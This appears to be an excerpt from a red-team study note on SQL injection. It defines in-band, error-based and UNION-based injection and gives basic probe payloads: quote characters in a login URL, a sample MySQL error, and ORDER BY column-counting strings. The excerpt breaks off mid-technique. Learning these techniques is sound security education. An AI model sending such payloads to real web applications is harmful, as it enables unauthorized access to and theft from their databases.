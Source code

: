 ### Types of Injection

<figure><img src="../../.gitbook/assets/RED_TEAM_SQL_INJECTION_TYPES" alt=""><figcaption><p>Types of Injection.</p></figcaption></figure>



#### In Band Injection:

> Get the query response in the same connection. also known as Classic Injection.

In Band Injection Types

> An Attacker tricks the web application database by triggering database errors to obtain information about the database.

Error Based Injection

Example

`'`

`"`

`\`

`%`

URL

```
https://example.com/login.php?username="""&password="\"
```

Database response:

{% code overflow="wrap" %}
```
Error: you have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use % at line 1.
```
{% endcode %}

UNION Based Injection

> An Attacker uses the SQL UNION operator to combine results from two queries into a single response from in the web application.

Exmaple:

Payload:

```sql
' ORDER BY 1 --+
```

Continue unit an error is occurred.

```sql
' ORDER BY 7--+
```


